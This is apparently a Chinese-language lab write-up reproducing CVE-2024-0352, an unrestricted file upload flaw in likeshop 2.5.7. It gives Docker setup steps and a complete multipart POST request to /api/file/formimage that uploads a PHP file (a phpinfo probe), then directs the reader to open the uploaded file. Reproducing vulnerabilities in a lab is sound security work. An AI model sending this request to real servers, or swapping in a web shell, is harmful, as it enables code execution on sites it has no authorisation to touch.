

# CVE-2024-0352 likeshop v2.5.7文件上传漏洞

Likeshop是Likeshop开源的一个社交商务策略的完整解决方案，开源免费版基于thinkPHP开发。Likeshop 2.5.7.20210311及之前版本存在代码问题漏洞，该漏洞源于文件server/application/api/controller/File.php的参数file会导致不受限制的上传。


开源项目地址：https://github.com/likeshop-github/likeshop/releases/tag/2.5.7

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-0352
- https://blog.csdn.net/shelter1234567/article/details/135918508

## 漏洞环境

执行如下命令启动一个likeshop-v2.5.7-web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80`跳转到Likeshop 安装向导页面。

设置好mysql等参数


需要注意的是mysql主机名称应填入mysql




## 漏洞复现

构造请求上传包

```
POST /api/file/formimage HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=---------------------------348900489633202294591557761619
Content-Length: 248

-----------------------------348900489633202294591557761619
Content-Disposition: form-data; name="file"; filename="b.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------348900489633202294591557761619--
```


访问payload文件


